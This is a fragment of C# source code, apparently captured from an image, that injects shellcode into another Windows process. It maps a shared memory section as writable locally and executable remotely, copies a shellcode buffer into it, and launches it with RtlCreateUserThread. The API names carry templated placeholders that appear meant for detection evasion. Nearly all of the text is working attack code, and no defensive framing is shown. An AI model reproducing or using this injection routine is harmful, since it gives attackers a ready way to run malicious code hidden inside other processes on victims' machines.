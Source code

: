                // Map the view of created section into the LOCAL process's virtual address space (as R-W)
                IntPtr baseAddressL = new IntPtr();
                ulong sectionOffsetL = new ulong();
                if (NtMaPView_%hName%OfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0)
                {
                    Console.WriteLine("[-] Failed to map the view into local process's space");
                    return;
                }

                // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
                IntPtr baseAddressR = new IntPtr();
                ulong sectionOffsetR = new ulong();
                if (NtMaPView_%hName%OfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0)
                {
                    Console.WriteLine("[-] Failed to map the view into remote process's space");
                    return;
                }

                // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
                Marshal.Copy(buf, 0, baseAddressL, bufLength);

                // BEGIN DEBUG (check if the shellcode was copied correctly)
                byte[] remoteMemory = new byte[bufLength];
                IntPtr bytesRead = new IntPtr();
                ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
                if (!CompareByteArray(buf, remoteMemory))
                {
                    Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
                    return;
                }
                // END DEBUG

                // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
                //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
                IntPtr threadHandle = new IntPtr();
                if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero)
                {
                    Console.WriteLine("[-] Failed to create a remote thread");
                    return;
                }

                Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processId})");

                // Clean up
                NtUnmaPView_%hName%OfSection(hLocalProcess, baseAddressL);
                NtClose(hSection);
            }
        }
    }